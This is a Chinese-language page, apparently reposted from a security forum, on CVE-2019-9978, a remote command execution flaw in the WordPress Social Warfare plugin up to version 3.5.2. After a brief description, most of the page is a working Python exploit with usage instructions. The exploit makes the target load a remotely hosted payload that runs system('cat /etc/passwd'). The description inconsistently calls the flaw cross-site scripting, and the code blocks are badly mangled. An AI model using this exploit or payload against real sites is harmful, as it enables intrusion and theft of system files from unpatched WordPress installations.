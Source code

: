 # （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3248](https://www.zhihuifly.com/t/topic/3248)

# （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞

## 一、漏洞简介

WordPress social-warfare插件3.5.3之前版本中存在跨站脚本漏洞。远程攻击者可借助‘swp_url’参数利用该漏洞注入恶意的JavaScript脚本。

## 二、漏洞影响

Social WarFare Plugin (<=3.5.2)

## 三、复现过程

### poc

> 首先在自己的服务器上传http(s)://www.0-sec.org/payload.txt

```
<pre>system('cat /etc/passwd')</pre> 
```

> useage
> 
> ```
>  python cve-2019-9978.py --target http://vulntarget.com \
>                          --payload-uri http://yourpayloadsite.com/payload.txt 
> ```

```
# title: "RCE in Social Warfare Plugin ( <=3.5.2 )"
# Date: March, 2019
# Researcher: Luka Sikic
# Exploit Author: hash3liZer
# Download Link: https://wordpress.org/plugins/social-warfare/
# Version: <= 3.5.2
# CVE: CVE-2019-9978

import sys

import requests

import re

import urlparse

import optparse

class EXPLOIT:

```
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&amp;swp_url=%s"

def __init__(self, _t, _p):
	self.target  = _t
	self.payload = _p

def engage(self):
	uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
	r = requests.get( uri )
	if r.status_code == 500:
		print "[*] Received Response From Server!"
		rr  = r.text
		obj = re.search(r"^(.*)&lt;\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
		if obj:
			resp = obj.groups()[0]
			if resp:
				print "[&lt;] Received: "
				print resp.replace( "lnbreak", "\n" )
			else:
				sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
	else:
		sys.exit( "[~] Unexpected Status Received!" ) 
```

def main():

parser = optparse.OptionParser(  )

```
parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

(options, args) = parser.parse_args()

print "[&gt;] Sending Payload to System!"
exploit = EXPLOIT( options.target, options.payload )
exploit.engage() 
``` `if **name** == “**main**”:

main()` 
```